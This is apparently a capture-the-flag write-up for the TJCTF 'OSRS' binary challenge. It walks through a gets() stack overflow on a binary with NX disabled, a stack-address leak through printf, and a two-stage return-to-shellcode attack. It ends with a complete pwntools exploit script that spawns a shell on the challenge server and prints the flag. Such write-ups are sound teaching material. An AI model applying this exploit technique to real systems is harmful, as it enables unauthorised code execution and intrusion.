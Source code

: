# tjctf: binary

## OSRS

Written by KyleForkBomb

_My friend keeps talking about Old School RuneScape. He says he made a service to tell you about trees._

_I don't know what any of this means but this system sure looks old! It has like zero security features enabled..._

`nc p1.tjctf.org 8006`

## Attacking

<p align="center">
<img src="checksec.png">
<br><i>zero security features</i> indeed
</p>

NX disabled clearly means that this will be a shellcode challenge, and a cursory glance at (cleaned) IDA will tell us just where that can be abused:

```c
char *trees[] = { "Normal", "The most common...", ... };
int get_tree()
{
  char s[0x100];
  int i;
  uint64_t padding; //padding added by compiler

  puts("Enter a tree type: ");
  gets(s); //BOF here!
  for (i = 0; i <= 12; ++i)
  {
    if (!strcasecmp(trees[2*i], s))
      return i;
  }
  printf("I don't have the tree %d :(\n", s);
  return -1;
}
```

Now, "_like_ zero security features" is a minor misdirection. ASLR is still enabled, and the stack address is only obtainable via the printf() leak of `s`.

The program ends right after that leak, so we'll have to reroute the return pointer towards `get_tree()` again for a 2nd buffer overflow, wherein we can allocate & jump to a `/bin/sh` shellcode.

```
input 1:
+---s[]---+-----r-----+
| garbage | get_tree()|
+--0x110--+-----4-----+
input 2:
+----s[]----+------r------+
| shellcode | addr of s[] |
+---0x110---+------4------+
```

There are two corollaries to the exploit that may not be immediately apparent without experience.

Firstly, `printf()` leaks the address of `s[]` with a `%d` format specifier. The negative number that is (likely to be) outputted must be converted to its hex form in accordance with [Two's complement](https://en.wikipedia.org/wiki/Two's_complement).

Secondly, the address of `s[]` is not constant. Because 4 bytes are used in jumping to `get_tree()` again, the correct adress of `s[]` for input 2 will be the leaked address +4. 

With that in mind, everything will work out fine:
<p align="center">
<img src="shellflag.png">
</p>

## flag

`tjctf{tr33_c0de_in_my_she115}`

## code

```python
from pwn import *
get_tree = ELF('./osrs').symbols['get_tree']
r_offset = 0x10C+4
r = remote('p1.tjctf.org', 8006)
r.sendlineafter(': \n', r_offset*'A' + p32(get_tree))
r.recvuntil('tree ')
s_addr = (1<<32)+int(r.recvuntil(' '))
sh = asm(shellcraft.i386.linux.sh(), arch='i386')
r.sendlineafter(': \n', sh.ljust(r_offset) + p32(s_addr+4))
r.interactive()
```
